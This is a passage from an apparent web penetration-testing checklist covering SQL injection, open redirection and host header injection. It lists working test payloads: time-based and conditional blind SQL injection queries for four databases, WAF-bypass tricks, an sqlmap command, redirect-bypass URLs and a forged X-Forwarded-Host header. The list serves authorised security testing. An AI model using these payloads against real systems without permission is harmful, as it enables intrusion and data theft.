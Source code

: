 - [ ] **Use Pure JS Payload That Worked for Many Popular Websites If Your Input Is Reflected Back in the JavaScript**
- [ ] **Blind XSS**

#### **17. SQL Injection Testing**
- [ ] **Locator (Error Based)**
- [ ] **Test'"" 123' ""Þ}j%Ùÿ'""'""""';' '""();=,%+-/**/ --«**
- [ ] **If Parameter=Static_Integer_Value Then Follow Below Method. If Id=4, Then Try Id=3+1 or Id=6-2 (If Page Loads in Same Way, It Is Vulnerable)**
- [ ] **Use SQLmap to Identify Vulnerable Parameters**
  - [ ] **Fill Form in Browser GUI Submit It Normally**
  - [ ] **Go to History Tab in BurpSuite and Find the Relevant Request**
  - [ ] **Right Click and Select the Option "Copy to File"**
  - [ ] **Save File as Anyname.txt**
  - [ ] **SQLmap Command to Run**
  - [ ] **Python sqlmap.py -r ~/Desktop/textsqli.txt --proxy=http://127.0.0.1:8080**
  - [ ] **Run SQL Injection Scanner on All Requests**
- [ ] **Bypassing WAF**
  - [ ] **Using Null Byte Before SQL Query**
  - [ ] **Using SQL Inline Comment Sequence**
  - [ ] **URL Encoding**
  - [ ] **Changing Cases (Uppercase/Lowercase)**
  - [ ] **Use SQLMAP Tamper Scripts**
  - [ ] **Time Delays**
    - [ ] **Oracle dbms_pipe.receive_message(('a'),10)**
    - [ ] **Microsoft WAITFOR DELAY '0:0:10'**
    - [ ] **PostgreSQL SELECT pg_sleep(10)**
    - [ ] **MySQL SELECT sleep(10)**
  - [ ] **Conditional Delays**
    - [ ] **Oracle SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual**
    - [ ] **Microsoft IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'**
    - [ ] **PostgreSQL SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END**
    - [ ] **MySQL SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')**

#### **18. Open Redirection Testing**
- [ ] **Use Burp 'Find' Option in Order to Find Parameters Such as URL, Red, Redirect, Redir, Origin, Redirect_Uri, Target, etc.**
- [ ] **Check the Value of These Parameters Which May Contain a URL**
- [ ] **Change the URL Value to www.chintan.com and Check If Gets Redirected or Not**
- [ ] **Give Below URL in Web Browser and Check If Application Redirects to the www.chintan.com Website or Not**
  - [ ] **https://www.target.com/ÿ/www.twitter.com/**
  - [ ] **https://www.target.com//www.twitter.com/**
  - [ ] **https://www.target.com/Ã¿/www.twitter.com/**
  - [ ] **https://www.target.com//www.twitter.com/**
- [ ] **Bypass Filter Using ReturnTo=///chintan.com/**
- [ ] **Bypass Filter Using ReturnTo=http:///chintan.com/**

#### **19. Host Header Injection**
- [ ] **Insert New Header in the GET/POST Request as Follows:**
  - [ ] **X-Forwarded-Host: www.chintan.com**
- [ ] **If It Gets Redirected from the Target Application Then Its Vulnerable**
- [ ] **Capture Any Request**
- [ ] **Change the Host to Google.com and See If Its Getting Redirected or Not**
